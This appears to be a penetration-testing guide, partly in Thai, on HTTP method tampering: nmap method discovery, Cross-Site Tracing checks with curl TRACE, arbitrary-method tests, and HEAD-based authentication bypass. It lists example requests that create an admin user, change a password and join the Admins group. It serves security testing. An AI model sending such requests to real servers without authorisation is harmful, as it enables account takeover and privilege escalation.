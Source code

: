 **How to test**

1.  Discover supported http method

Use nmap with http-methods NSE script as following picture. Below picture is shown "Supported Methods"

![662291DE-7BD9-4E0B-BC96-812EF15D3D0A](https://user-images.githubusercontent.com/60565002/73835870-c3e6a180-4840-11ea-86bd-52865ca63422.png)


2. Test XST Potential

use "curl" to test

Example not vulnerable server:

' # curl -i -A 'Mozilla/5.0' -X 'TRACE /' -k https://www.not-vulnerable.com'
HTTP/1.1 403 Forbidden(U+000A)
'Date: Sat, 04 Jun 2011 06:46:21 GMT'
'Server: Apache'
'Content-Length: 202'
'Connection: close'
'Content-Type: text/html; charset=iso-8859-1'


<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
'<h1>Forbidden</h1>'
<p>You don't have permission to access /
on this server.</p>
</body></html>

Example of a vulnerable server:

> # curl -i -A 'Mozilla/5.0' -X 'TRACE /' -k https://www.vulnerable.com
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2011 06:34:51 GMT
Server: Apache
Connection: close
Content-Type: message/http

TRACE / / HTTP/1.1
User-Agent: Mozilla/5.0
Host: www.vulnerable.com
Accept: */*  


******
-i   --> nclude the HTTP response headers in the output. The HTTP response headers can include things like server name, cookies, date of the document, HTTP version and more...   

-A  -->  (HTTP) Specify the User-Agent string to send to the HTTP server. To encode blanks in the string, surround the string with single quote marks. This header can also be set with the -H, --header or the --proxy-header options.

-X -->  specifies a customer request method to use when communicating with the HTTP server.

-k  --> test TLS or SSL for https

***********

3. Test arbitrary HTTP method

ลองใช้ชื่อ method เช่น JEFF ตามภาพ ซึ่ง web server ควรจะแสดง error page ด้วย 405 หรือ 501 แต่ถ้าเรียกแล้วตอบด้วย 200 ก็ถือว่ามีช่องโหว่

![E027F3A5-AD24-4869-922C-707B624F66FD](https://user-images.githubusercontent.com/60565002/73836029-04461f80-4841-11ea-9e5d-29f9a1c06a1e.png)

แล้วเราสามารถจะลองใช้ การ issue command ตัวอย่างเช่น

•  FOOBAR /admin/createUser.php?member=myAdmin
•  JEFF /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
•  CATS /admin/groupEdit.php?group=Admins&member=myAdmin&action=add
อาจจะสามารถ create user ได้

4. Testing HEAD access control bypass

ลองใช้ method HEAD เรียก หน้าของ admin ซึ่งโดยปกติ ต้องถูก redirect 302 ไปหน้า login  แต่ถ้าลองแล้วได้ 200 ดังภาพ แสดงว่ามีช่องโหว่ที่อาจจะ bypass authen ได้

![image 3](https://user-images.githubusercontent.com/60565002/73836039-07d9a680-4841-11ea-8c3a-c436efc8c025.png)

จากภาพจะเห็นว่า web server ตอบกลับมาด้วย header ของ admin โดยไม่มี body ถ้าเราเจอแบบนี้ อาจจะมีช่องโหว่ให้เราลอง

•  HEAD /admin/createUser.php?member=myAdmin
•  HEAD /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
•  HEAD /admin/groupEdit.php?group=Admins&member=myAdmin&action=add


